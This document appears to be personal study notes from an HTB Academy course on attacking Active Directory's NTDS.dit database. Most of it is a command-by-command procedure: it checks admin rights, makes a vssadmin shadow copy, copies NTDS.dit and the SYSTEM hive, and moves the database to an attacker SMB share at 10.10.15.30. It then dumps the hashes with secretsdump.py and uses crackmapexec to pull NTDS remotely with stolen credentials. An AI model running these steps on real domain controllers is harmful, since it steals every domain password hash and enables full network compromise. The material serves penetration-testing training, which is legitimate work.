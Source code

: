 # Attacking Active Directory NTDS.dit

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/5695c495-1b02-471a-9aac-cc2a54a8155d)

Once a Windows system is joined to a domain, it will no longer default to _referencing the SAM database to validate logon requests_
Keep in mind that we can also study NTDS attacks by keeping track of this [technique](https://attack.mitre.org/techniques/T1003/003/).

# Capturing NTDS.dit
The `.dit` stands for directory information tree. This is the primary database file associated with AD and stores all domain **usernames**, password **hashes**, and other critical schema information.
`NT Directory Services (NTDS)` is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at %systemroot$/ntds on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).

To make a copy of the `NTDS.dit` file, we need `local admin` (Administrators group) or `Domain Admin` (Domain Admins group) (or equivalent) rights.<br>
Checking local group membership from powershell:
```bash
net localgroup
```
Checking User Account Privileges including Domain
```bash
net user username
```
This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

# Creating Shadow Copy of C:
From powershell:
```bash
vssadmin CREATE SHADOW /For=C:
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/675095d8-1f51-41d8-bb56-4baa179f2d3e)

## Copying NTDS.dit from the VSS
```bash
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\NTDS.dit
```
To transfer file into linux smb server:
```bash
PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```
After transfering .dit file we also need system hive to dump hashes.
`reg.exe save hklm\system C:\system.save` and then transfer it too.
## Dumping hashes
```bash
sudo python3 secretsdump.py -system system.save -ntds NTDS.dit local
```

## Capturing ntds from linux
```bash
crackmapexec smb 10.129.201.57 -u username -p password --ntds
```
